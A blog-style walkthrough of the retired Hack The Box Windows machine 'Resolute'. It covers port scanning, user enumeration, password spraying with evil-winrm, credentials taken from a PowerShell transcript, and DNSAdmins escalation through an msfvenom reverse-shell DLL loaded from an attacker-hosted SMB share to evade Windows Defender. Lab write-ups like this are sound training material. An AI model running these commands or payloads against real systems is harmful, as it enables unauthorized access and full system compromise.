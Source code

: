 ```yaml
---
layout: default
---
```

## Resolute
###### Retired June 2020
![](https://www.hackthebox.eu/storage/avatars/4c86a642ea237dfde036963e6d182b40.png)

This Windows machine takes advantage of lazy adminstrators, poor PowerShell hygiene, and Windows Defender bypasses.

I started this machine with a quick nmap scan to find open ports
```bash
nmap -p 1-65535 -n -v resolute.htb -T5
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap1.png)

I followed up with a more in depth nmap scan on a few of the ports that responded. I had a hunch what I needed was one of the first responders.

```bash
nmap -p 53,139,445,636,5985,88 -n resolute.htb -T4 -A -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap2.png)

My next move was to run enum4linux against resolute.htb.

```bash
enum4linux -a resolute.htb
```

This provided the workgroup name, a list of users, and a password. For the account 'marko' we can see a description that says 'Account created. Password set to Welcome123!'. 

![](https://yaboygmoney.github.io/htb/images/resolute/enum.png)

We learned WinRM was enabled from our nmap scan, so I try to use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to login with the credentials found.

```bash
evil-winrm -u marko -p 'Welcome123!' -i resolute.htb
```

..except, no ya don't.

![](https://yaboygmoney.github.io/htb/images/resolute/badpass.png)

Looks like the password won't work for ```marko```. It does appear to be a standard "Welcome to the organization!" password that is set by default. To check it against the user list named "u.txt" containing all of the names provided by enum4linux, I ran

```bash
for user in $(cat u.txt); do evil-winrm -u $user -p 'Welcome123!' -i resolute.htb; done
```

It fails a few times, and then I'm able to authentiate as the user 'melanie'.

![](https://yaboygmoney.github.io/htb/images/resolute/loop.png)

A quick get-content command against C:\users\melanie\desktop\user.txt gets the user flag.

![](https://yaboygmoney.github.io/htb/images/resolute/user.png)

After looking around, it doesn't appear as though the user melanie has too many permissions on this system to escalate. Other users with folders on the system are Administrator and Ryan. 

![](https://yaboygmoney.github.io/htb/images/resolute/users.png)

I decide to see what I can see about Ryan.

```powershell
net user ryan
```

![](https://yaboygmoney.github.io/htb/images/resolute/netryan.png)

Ryan is a member of another group: contractors. We don't have much else to go on, so let's see what we can find.

I start at C:\ and see what's what.

```powershell
Get-ChildItem -force
```
There are a few bonus folders in here, namely PSTranscripts. 

![](https://yaboygmoney.github.io/htb/images/resolute/digging.png)

Enumerating that shows an result.

![](https://yaboygmoney.github.io/htb/images/resolute/pstranscript.png)

The file is 3732 bytes of text, so I decide to pull it down to my Kali machine by using ```download Powershell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` in Evil-WinRM.

Looking through the file, credentials are easily spotted in a command ryan was using to mount a file share.

![](https://yaboygmoney.github.io/htb/images/resolute/ryancred.png)

Exit the session as melanie and start a new one as ryan:

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i resolute.htb
```

![](https://yaboygmoney.github.io/htb/images/resolute/inAsRyan.png)

I immediately check out what sort of cool things Ryan can accomplish with ```whoami /all```.

![](https://yaboygmoney.github.io/htb/images/resolute/ryangroups.png)

Interestingly, Ryan is a member of the DNSAdmins group. Equally interesting, [this blog](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) covering exploiting DNSAdmin's abilities to load DLLs with the dnscmd.exe binary.

After learning this, I craft a quick DLL payload with msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.28 LPORT=1234 > ybgm.dll
```

I start Metasploits exploit/multi/handler to catch the callback, and upload my DLL to the target. Except..

![](https://yaboygmoney.github.io/htb/images/resolute/busted.png)

Windows Defender is busting this payload as soon as it hits the disk. Shay Ber's previously mentioned article does mention that the payload can be called from a UNC path from a remote server. This is important, because this instance of Windows Defender only seems to care if the file is touching the disk. Loading the DLL from a remote server is safe, so to abuse this feature, I need to do a few things:

1. Serve a share folder from Kali, hosting the DLL
2. Mount the share folder so that Ryan can use it
3. Run the dnscmd to config the loading of the bad DLL
4. Restart the DNS service so the DLL is loaded

To accomplish Step 1, I used [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py YBGM /root/htb/resolute/
```

This command creates an SMB server and share named YBGM, hosting my /root/htb/resolute directory.

![](https://yaboygmoney.github.io/htb/images/resolute/smbsetup.png)

Next, I need to get Ryan using this share. By default, the share doesn't require any authentication, so it's as easy as 

```powershell
net use \\10.10.14.28\ybgm
net use
```

You can see from both the Windows machine and the Kali machine that the connection established.

![](https://yaboygmoney.github.io/htb/images/resolute/mounted.png)

![](https://yaboygmoney.github.io/htb/images/resolute/mounted2.png)

Now I need to run the dnscmd.exe binary to load this DLL and then restart DNS.

```powershell
dnscmd.exe Resolute /config /ServerLevelPlugindll \\10.10.14.28\ybgm\ybgm.dll
sc.exe stop dns
sc.exe start dns
```

![](https://yaboygmoney.github.io/htb/images/resolute/dnscmd.png)

Once DNS comes back up my dll is loaded and a connection is established with my listener.

![](https://yaboygmoney.github.io/htb/images/resolute/metasploit.png)

With the NT AUTHORITY/SYSTEM shell, I can get the contents of C:\users\administrator\desktop\root.txt 

![](https://yaboygmoney.github.io/htb/images/resolute/root.png)
